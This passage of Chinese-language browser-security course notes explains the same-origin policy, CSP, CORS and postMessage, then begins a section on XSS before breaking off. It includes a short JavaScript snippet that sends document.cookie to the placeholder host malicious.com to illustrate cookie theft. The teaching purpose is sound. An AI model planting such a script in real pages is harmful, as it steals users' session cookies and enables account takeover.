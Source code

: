 所以最初的浏览器都是支持外部引用资源文件的，不过这也带来了很多问题。

最多的一个问题是浏览器的首页内容会被一些恶意程序劫持，其中最常见的是恶意程序通过各种途径往 HTML 文件中插入恶意脚本。

比如：恶意程序在 HTML 文件中插入如下 JavaScript 代码：

![img](https://static001.geekbang.org/resource/image/74/de/741dc2c53217aee177d18375a7aa94de.png)

浏览器是无法区分被插入的文件是恶意的还是正常的，当页面启动时，它可以修改用户的搜索结果、改变一些内容的连接指向，等等。

除此之外，它还能将页面的敏感数据，如Cookie、IndexDB、LoacalStorage 等数据通过 XSS 的手段发送给服务器。如下面这段伪代码：

```javascript
function onClick(){
  let url = `http://malicious.com?cookie = ${document.cookie}`
  open(url)
}
onClick()
```

在这段代码中，恶意脚本读取 Cookie 数据，并将其作为参数添加至恶意站点尾部，当打开该恶意页面时，恶意服务器就能接收到当前用户的 Cookie 信息。

以上就是一个非常典型的 **XSS 攻击**。为了解决 XSS 攻击，浏览器中引入了内容安全策略，称为 CSP。**CSP 的核心思想是让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联 JavaScript 代码。**通过这些手段就可以大大减少 XSS 攻击。

#### 2. 跨域资源共享和跨文档消息机制

**跨域资源共享（CORS）**：使用该机制可以进行跨域访问控制，从而使跨域数据传输得以安全进行。比如可以在极客官网通过 XMLHttpRequest 请求 InfoQ 中的资源。

**跨文档消息机制**：如果两个页面不同源，则无法相互操作 DOM。但在实际应用中，经常需要两个不同源的 DOM 之间进行通信，于是引入了该机制。可以通过 window.postMessage 的 JavaScript 接口来和不同源的 DOM 进行通信。

### 总结

同源策略会隔离不同源的 DOM、页面数据和网络通信，进而实现 Web 页面的安全性。

不过鱼和熊掌不可兼得，要绝对的安全就要牺牲掉便利性，因此我们要在这二者之间做权衡，找到中间的一个平衡点，也就是目前的页面安全策略原型。总结起来，它具备以下三个特点：

1. 页面中可以引用第三方资源，不过这也暴露了很多诸如 XSS 的安全问题，因此又在这种开放的基础之上引入了 CSP 来限制其自由程度。
2. 使用 XMLHttpRequest 和 Fetch 都是无法直接进行跨域请求的，因此浏览器又在这种严格策略的基础之上引入了跨域资源共享策略，让其可以安全地进行跨域操作。
3. 两个不同源的 DOM 是不能相互操纵的，因此，浏览器中又实现了跨文档消息机制，让其可以比较安全地通信。



## 跨站脚本攻击（XSS）：为什么 Cookie 中有 HttpOnly 属性？

同源策略为了协调安全性和便捷性，需要在两者间寻找一个平衡点，所以默认页面中可以引用任意第三方资源，然后又引入 CSP 策略来加以限制；默认 XMLHttpRequest 和 Fetch 不能跨站请求资源，然后又通过 CORS 策略来支持其跨域。

不过支持页面中的第三方资源引用和 CORS 也带来了很多安全问题，其中最典型的就是 **XSS 攻击。**

### 什么是 XSS攻击

XSS 全称 Cross Site Scripting，即“跨站脚本”。XSS 攻击是指黑客往 HTML 文件中或者 DOM 中注入恶意脚本，从而在用户浏览页面时利用注入的恶意脚本对用户实施攻击的一种手段。

当页面被注入了恶意 JavaScript 脚本时，浏览器无法区分这些脚本是被恶意注入的还是正常的页面内容，所以恶意注入 JavaScript 脚本也拥有所有的脚本权限。

恶意脚本能做的事：
